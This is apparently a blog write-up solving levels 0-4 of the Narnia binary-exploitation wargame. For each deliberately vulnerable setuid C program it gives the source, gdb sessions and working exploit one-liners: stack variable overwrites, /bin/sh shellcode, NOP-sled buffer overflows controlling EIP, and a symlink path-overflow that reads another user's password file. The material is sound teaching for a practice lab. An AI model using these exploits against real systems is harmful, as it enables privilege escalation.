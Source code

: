 Solving Narnia Part 1
#####################

:title: Solving Narnia Part 1
:date: 2015-04-08T00
:modified: 2015-04-08 12
:tags:


Next up we take on `Narnia <http://overthewire.org/wargames/narnia/>`_. This is a 
binary exploit centered wargame, so fire up your debuggers and let's smash those
stacks. For levels 5, 6, 7, and 8, see `part 2 <http://unlogic.co.uk/2015/04/13/solving-narnia-part-2/>`_

All levels are in :code:`/narnia` and both the binary and the source are provided.

I've not included the passwords here, so you'll have to work through
the exercises yourself (or find them elsewhere :))

Level 00 ##
-----------

.. code:: c  

	#include <stdio.h>
	#include <stdlib.h>
	
	int main(){
	        long val=0x41414141;
	        char buf[20];
	
	        printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
	        printf("Here is your chance: ");
	        scanf("%24s",&buf);
	
	        printf("buf: %s\n",buf);
	        printf("val: 0x%08x\n",val);
	
	        if(val==0xdeadbeef)
	                system("/bin/sh");
	        else {
	                printf("WAY OFF!!!!\n");
	                exit(1);
	        }
	
	        return 0;
	}

Lines 8 and 9 tell us what we need to do. So knowing how variable allocation
on the stack works, we can exploit the setup on lines 5 and 6. :code:`buf` is a 
fixed size and is allocated *after* :code:`val`. Therefore it sits above :code:`val` on
the stack. As there is no `ASLR <https://en.wikipedia.org/wiki/Address_space_layout_randomization>`_
we should be able to write over the end of :code:`buf` and overwrite what is in memory
at :code:`val`'s location.

So let's try it

.. code:: console

	narnia0@melinda:/narnia$ python -c "print 'C'*50" | ./narnia0 
	Correct val's value from 0x41414141 -> 0xdeadbeef!
	Here is your chance: buf: CCCCCCCCCCCCCCCCCCCCCCCC
	val: 0x43434343
	WAY OFF!!!!

Right, we can confirm that we are able to change the value of :code:`val`. Let's
tread a bit more carefully and try to see if we can do it more accurately

.. code:: console

	narnia0@melinda:/narnia$ python -c "print 'C'*20 + 'BBBB'" | ./narnia0 
	Correct val's value from 0x41414141 -> 0xdeadbeef!
	Here is your chance: buf: CCCCCCCCCCCCCCCCCCCCBBBB
	val: 0x42424242
	WAY OFF!!!!

So there is no space between :code:`val` and :code:`buf`, therefore 20 characters plus a 
further 4 is enough to change val. Let's write in the correct value, reversed of
course because of the endian notation

.. code:: console

	narnia0@melinda:/narnia$ python -c "print 'C'*20 + '\xef\xbe\xad\xde'" | ./narnia0
	Correct val's value from 0x41414141 -> 0xdeadbeef!
	Here is your chance: buf: CCCCCCCCCCCCCCCCCCCCﾭ
	val: 0xdeadbeef
	narnia0@melinda:/narnia$

We did it.... but wait, where's the shell? It's closed, that's where it is. We
need to keep it open. The trick is to append the :code:`cat` command to the input

.. code:: console

	narnia0@melinda:/narnia$ (python -c "print 'C'*20 + '\xef\xbe\xad\xde'"; cat) | ./narnia0
	Correct val's value from 0x41414141 -> 0xdeadbeef!
	Here is your chance: buf: CCCCCCCCCCCCCCCCCCCCﾭ
	val: 0xdeadbeef
	id
	uid=14000(narnia0) gid=14000(narnia0) euid=14001(narnia1) groups=14001(narnia1),14000(narnia0)
	whoami
	narnia1
	cat /etc/narnia_pass/narnia1
	[password]

Level 01 ##
-----------

.. code:: c 

	#include <stdio.h>
	
	int main(){
		int (*ret)();
	
		if(getenv("EGG")==NULL){    
			printf("Give me something to execute at the env-variable EGG\n");
			exit(1);
		}
	
		printf("Trying to execute EGG!\n");
		ret = getenv("EGG");
		ret();
	
		return 0;
	}

So here we need to set an environment variable named :code:`EGG` to something
we want executed. We can't just pass :code:`/bin/bash` as it's going to call whatever
we give it as a function. Ideally we want a shell, so what we need in this case
is the shellcode to do just that.

.. code:: console

	narnia1@melinda:/narnia$ export EGG=$(python -c'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"')
	narnia1@melinda:/narnia$ ./narnia1
	Trying to execute EGG!
	$ whoami
	narnia2
	$ cat /etc/narnia_pass/narnia2
	[password]

Level 02 ##
-----------

.. code:: c 

	#include <stdio.h>
	#include <string.h>
	#include <stdlib.h>
	
	int main(int argc, char * argv[]){
		char buf[128];
	
		if(argc == 1){
			printf("Usage: %s argument\n", argv[0]);
			exit(1);
		}
		strcpy(buf,argv[1]);
		printf("%s", buf);
	
		return 0;
	}

The biggest clues here are lines 6 and 12. Copying user supplied data
into a fixed sized array without any bound checking is always asking for 
trouble. :code:`narnia2` binary also runs as setuid narnia3, which leads us to believe
we will be able to control the stack and get it to execute a payload of our 
choosing. Of course this will be a shellcode to drop us into a shell.

First we need to work out how much data is needed to overwrite :code:`EIP`. We can
do this by trial and error, or we can use a pattern generator. I am going to
use my `pattern generator <https://github.com/Svenito/exploit-pattern>`_ instead
of metasploit's one. I'll create a payload big enugh to overflow the 
buffer and then check the value of :code:`EIP`. Pasting that back into the pattern
generator will tell us at what location in the pattern the string occurs.

.. code:: console

	local $] ./pattern.py 150
	Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5
	Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9

.. code:: console

	narnia2@melinda:/narnia$ gdb -q narnia2
	Reading symbols from narnia2...(no debugging symbols found)...done.
	(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
	Starting program: /games/narnia/narnia2 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
	
	Program received signal SIGSEGV, Segmentation fault.
	0x37654136 in ?? ()
	(gdb) info reg
	eax            0x0	0
	ecx            0x0	0
	edx            0xf7fcb898	-134432616
	ebx            0xf7fca000	-134438912
	esp            0xffffd640	0xffffd640
	ebp            0x65413565	0x65413565
	esi            0x0	0
	edi            0x0	0
	eip            0x37654136	0x37654136
	eflags         0x10282	[ SF IF RF ]
	cs             0x23	35
	ss             0x2b	43
	ds             0x2b	43
	es             0x2b	43
	fs             0x0	0
	gs             0x63	99

.. code:: console

	local $] ./pattern.py 0x37654136
	Pattern 0x37654136 first occurrence at position 140 in pattern.

We can control :code:`EIP` with whatever we put at position 140 of our payload. But
what do we put there? Well for that we need to figure out where the rest of our
data is going. Using a known payload let's see where our input ends up:

.. code:: console

	(gdb) run $(python -c "print 'a' * 140 + 'b' * 4")
	Starting program: /games/narnia/narnia2 $(python -c "print 'a' * 140 + 'b' * 4")
	
	Program received signal SIGSEGV, Segmentation fault.
	0x62626262 in ?? ()
	(gdb) x/200x $esp
	(gdb) x/200x $esp
	0xffffd650:	0x00000000	0xffffd6e4	0xffffd6f0	0xf7feacea
	0xffffd660:	0x00000002	0xffffd6e4	0xffffd684	0x08049768
	0xffffd670:	0x0804821c	0xf7fca000	0x00000000	0x00000000
	0xffffd680:	0x00000000	0xed18585e	0xd520bc4e	0x00000000
	0xffffd690:	0x00000000	0x00000000	0x00000002	0x08048360
	0xffffd6a0:	0x00000000	0xf7ff0500	0xf7e3c979	0xf7ffd000
	0xffffd6b0:	0x00000002	0x08048360	0x00000000	0x08048381
	0xffffd6c0:	0x0804845d	0x00000002	0xffffd6e4	0x080484d0
	0xffffd6d0:	0x08048540	0xf7feb180	0xffffd6dc	0x0000001c
	0xffffd6e0:	0x00000002	0xffffd812	0xffffd828	0x00000000
	0xffffd6f0:	0xffffd8b9	0xffffd8cd	0xffffd8dd	0xffffd8f0
	0xffffd700:	0xffffd913	0xffffd927	0xffffd930	0xffffd93d
	0xffffd710:	0xffffde5e	0xffffde69	0xffffde75	0xffffded3
	0xffffd720:	0xffffdeea	0xffffdef9	0xffffdf05	0xffffdf16
	0xffffd730:	0xffffdf1f	0xffffdf32	0xffffdf3a	0xffffdf4a
	0xffffd740:	0xffffdf80	0xffffdfa0	0xffffdfc0	0x00000000
	0xffffd750:	0x00000020	0xf7fdbb60	0x00000021	0xf7fdb000
	0xffffd760:	0x00000010	0x1f898b75	0x00000006	0x00001000
	0xffffd770:	0x00000011	0x00000064	0x00000003	0x08048034
	0xffffd780:	0x00000004	0x00000020	0x00000005	0x00000008
	0xffffd790:	0x00000007	0xf7fdc000	0x00000008	0x00000000
	0xffffd7a0:	0x00000009	0x08048360	0x0000000b	0x000036b2
	0xffffd7b0:	0x0000000c	0x000036b2	0x0000000d	0x000036b2
	0xffffd7c0:	0x0000000e	0x000036b2	0x00000017	0x00000000
	0xffffd7d0:	0x00000019	0xffffd7fb	0x0000001f	0xffffdfe2
	0xffffd7e0:	0x0000000f	0xffffd80b	0x00000000	0x00000000
	0xffffd7f0:	0x00000000	0x00000000	0xe8000000	0x7c03ba19
	0xffffd800:	0x2bd0895a	0x3866226d	0x69ad5957	0x00363836
	0xffffd810:	0x672f0000	0x73656d61	0x72616e2f	0x2f61696e
	0xffffd820:	0x6e72616e	0x00326169	0x61616161	0x61616161
	0xffffd830:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd840:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd850:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd860:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd870:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd880:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd890:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd8a0:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd8b0:	0x61616161	0x62626262	0x47445800	0x5345535f
	0xffffd8c0:	0x4e4f4953	0x3d44495f	0x30333035	0x45485300
	0xffffd8d0:	0x2f3d4c4c	0x2f6e6962	0x68736162	0x52455400
	0xffffd8e0:	0x78723d4d	0x322d7476	0x6f633635	0x00726f6c
	0xffffd8f0:	0x5f485353	0x45494c43	0x323d544e	0x322e3231
	0xffffd900:	0x37352e33	0x3136312e	0x35333320	0x34203932
	0xffffd910:	0x53003334	0x545f4853	0x2f3d5954	0x2f766564
	0xffffd920:	0x2f737470	0x4c003033	0x4c415f43	0x00433d4c
	0xffffd930:	0x52455355	0x72616e3d	0x3261696e	0x5f534c00
	0xffffd940:	0x4f4c4f43	0x723d5352	0x3a303d73	0x303d6964
	0xffffd950:	0x34333b31	0x3d6e6c3a	0x333b3130	0x686d3a36
	0xffffd960:	0x3a30303d	0x343d6970	0x33333b30	0x3d6f733a

We see our payload start at :code:`0xffffd828` with the last 4 bytes at :code:`0xffffd8b4`

The buffer gives us 128 bytes to play with. Our shellcode is 25 bytes, so we'll pad the
start with a `nop sled <https://en.wikipedia.org/wiki/NOP_slide>`_ to adjust for
the memory offset introduced by :code:`gdb`. Then set the :code:`EIP` to somewhere in the middle
of the sled

.. code:: console

	narnia2@melinda:/narnia$ ./narnia2 `python -c "print '\x90'*115 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80' + '\x60\xd8\xff\xff'"`
	$ whoami
	narnia3
	$ cat /etc/narnia_pass/narnia3
	[password]

Level 03 ##
-----------

.. code:: c 

	#include <stdio.h>
	#include <sys/types.h>
	#include <sys/stat.h>
	#include <fcntl.h>
	#include <unistd.h>
	#include <stdlib.h>
	#include <string.h> 
	
	int main(int argc, char **argv){
	 
	        int  ifd,  ofd;
	        char ofile[16] = "/dev/null";
	        char ifile[32];
	        char buf[32];
	 
	        if(argc != 2){
	                printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
	                exit(-1);
	        }
	 
	        /* open files */
	        strcpy(ifile, argv[1]);
	        if((ofd = open(ofile,O_RDWR)) < 0 ){
	                printf("error opening %s\n", ofile);
	                exit(-1);
	        }
	        if((ifd = open(ifile, O_RDONLY)) < 0 ){
	                printf("error opening %s\n", ifile);
	                exit(-1);
	        }
	 
	        /* copy from file1 to file2 */
	        read(ifd, buf, sizeof(buf)-1);
	        write(ofd,buf, sizeof(buf)-1);
	        printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);
	 
	        /* close 'em */
	        close(ifd);
	        close(ofd);
	 
	        exit(1);
	}
	

At first glance this looks a bit more complicated. However it is just another
buffer overflow (line 13 and 22). This time however we don't control the stack, 
we control where the file gets written to. :code:`/dev/null` is not a useful place
for data, and we want the contents of :code:`/etc/narnia_pass/narnia4`. As :code:`narnia3` runs 
setuid narnia4, it can do that for us.

First we determine that we need 32 characters to overflow the buffer. Then anything
beyond that will get written to the ofile. So the plan is to to create a symlink to
:code:`narnia4` that is 32 characters long, and then write that to the target. The issue here
is that the source path's last 16 characters need to be the same as the target.
So to do this I created the following directory and symlink:

.. code:: console

	narnia3@melinda:/narnia$ mkdir -p /tmp/xxxxxxxxxxxxxxxxxxxxxxxxxxx/tmp
	narnia3@melinda:/narnia$ ln -s /etc/narnia_pass/narnia4 /tmp/xxxxxxxxxxxxxxxxxxxxxxxxxxx/tmp/narn4

Now when we pass that to :code:`narnia3`:

.. code:: console

	narnia3@melinda:/narnia$ ./narnia3 `python -c "print '/tmp/' + 'x'*27 + '/tmp/narn4'"` 
	copied contents of /tmp/xxxxxxxxxxxxxxxxxxxxxxxxxxx/tmp/narn4 to a safer place... (/tmp/narn4)
	narnia3@melinda:/narnia$ cat /tmp/narn4 
	[password]

It's a little odd, but I hope you understand what happened. The last part of the 
first path has to be a valid path, so that it can be written to. That's why we have 
the double :code:`/tmp` setup.

Level 04 ##
-----------

.. code:: c 

	#include <string.h>
	#include <stdlib.h>
	#include <stdio.h>
	#include <ctype.h>
	
	extern char **environ;
	
	int main(int argc,char **argv){
		int i;
		char buffer[256];
	
		for(i = 0; environ[i] != NULL; i++)
			memset(environ[i], '\0', strlen(environ[i]));
	
		if(argc>1)
			strcpy(buffer,argv[1]);
	
		return 0;
	}

MOAR OVERFLOWS. This time you'll notice something at line 6. What this does
is `store the user environment <http://man7.org/linux/man-pages/man7/environ.7.html>`_.
This then get zerod out inside :code:`main` to prevent us from storing any shellcode
in environment variables. However we might still be able to write :code:`EIP`, so using the
trusty pattern generator from before

.. code:: console

	local $] ./pattern.py 300
	Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7
	Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5
	Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3
	Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9

.. code:: console

	narnia4@melinda:/narnia$ gdb -q ./narnia4 
	Reading symbols from ./narnia4...(no debugging symbols found)...done.
	(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5
	Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4
	Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3
	Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
	Starting program: /games/narnia/narnia4 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5
	Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4
	Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3
	Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
	
	Program received signal SIGSEGV, Segmentation fault.
	0x316a4130 in ?? ()

.. code:: console

	local $] ./pattern.py 0x316a4130
	Pattern 0x316a4130 first occurrence at position 272 in pattern.

This tells us we have 272 bytes to play with. Plenty of space to construct
a nopsled and shellcode payload. Let's find out what we need to write into
:code:`EIP`.

.. code:: console

	(gdb) r $(python -c "print 'a'*272 + 'bbbb'")
	Starting program: /games/narnia/narnia4 $(python -c "print 'a'*272 + 'bbbb'")
	
	Program received signal SIGSEGV, Segmentation fault.
	0x62626262 in ?? ()
	(gdb) x/200x $esp
	0xffffd5c0:	0x00000000	0xffffd654	0xffffd660	0xf7feacea
	0xffffd5d0:	0x00000002	0xffffd654	0xffffd5f4	0x080497cc
	0xffffd5e0:	0x0804825c	0xf7fca000	0x00000000	0x00000000
	0xffffd5f0:	0x00000000	0x7cc8a421	0x44f76031	0x00000000
	0xffffd600:	0x00000000	0x00000000	0x00000002	0x080483b0
	0xffffd610:	0x00000000	0xf7ff0500	0xf7e3c979	0xf7ffd000
	0xffffd620:	0x00000002	0x080483b0	0x00000000	0x080483d1
	0xffffd630:	0x080484ad	0x00000002	0xffffd654	0x08048550
	0xffffd640:	0x080485c0	0xf7feb180	0xffffd64c	0x0000001c
	0xffffd650:	0x00000002	0xffffd78f	0xffffd7a5	0x00000000
	0xffffd660:	0xffffd8ba	0xffffd8ce	0xffffd8de	0xffffd8f1
	0xffffd670:	0xffffd914	0xffffd927	0xffffd930	0xffffd93d
	0xffffd680:	0xffffde5e	0xffffde69	0xffffde75	0xffffded3
	0xffffd690:	0xffffdeea	0xffffdef9	0xffffdf05	0xffffdf16
	0xffffd6a0:	0xffffdf1f	0xffffdf32	0xffffdf3a	0xffffdf4a
	0xffffd6b0:	0xffffdf80	0xffffdfa0	0xffffdfc0	0x00000000
	0xffffd6c0:	0x00000020	0xf7fdbb60	0x00000021	0xf7fdb000
	0xffffd6d0:	0x00000010	0x1f898b75	0x00000006	0x00001000
	0xffffd6e0:	0x00000011	0x00000064	0x00000003	0x08048034
	0xffffd6f0:	0x00000004	0x00000020	0x00000005	0x00000008
	0xffffd700:	0x00000007	0xf7fdc000	0x00000008	0x00000000
	0xffffd710:	0x00000009	0x080483b0	0x0000000b	0x000036b4
	0xffffd720:	0x0000000c	0x000036b4	0x0000000d	0x000036b4
	0xffffd730:	0x0000000e	0x000036b4	0x00000017	0x00000000
	0xffffd740:	0x00000019	0xffffd76b	0x0000001f	0xffffdfe2
	0xffffd750:	0x0000000f	0xffffd77b	0x00000000	0x00000000
	0xffffd760:	0x00000000	0x00000000	0x9e000000	0x9213cb6c
	0xffffd770:	0x8eef41b1	0xe0574cc7	0x69a73659	0x00363836
	0xffffd780:	0x00000000	0x00000000	0x00000000	0x2f000000
	0xffffd790:	0x656d6167	0x616e2f73	0x61696e72	0x72616e2f
	0xffffd7a0:	0x3461696e	0x61616100	0x61616161	0x61616161
	0xffffd7b0:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd7c0:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd7d0:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd7e0:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd7f0:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd800:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd810:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd820:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd830:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd840:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd850:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd860:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd870:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd880:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd890:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd8a0:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd8b0:	0x61616161	0x62626261	0x00000062	0x00000000
	0xffffd8c0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd8d0:	0x00000000	0x00000000	0x00000000	0x00000000

Our input starts at around *0xffffd7a8* so let's get going writing our payload.
Create a nopsled that is *272 - 25* bytes long, follow that with the
the same shellcode as before, and finish with an address that sits comfortably
in the sled. You normally need to play with the address a bit, as the offsets
inside *gdb* are a bit different.

.. code:: console

	narnia4@melinda:/narnia$ ./narnia4 `python -c "print '\x90'*(272-25) + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80' + '\x30\xd8\xff\xff'"`
	$ whoami
	narnia5
	$ cat /etc/narnia_pass/narnia5
	[password]
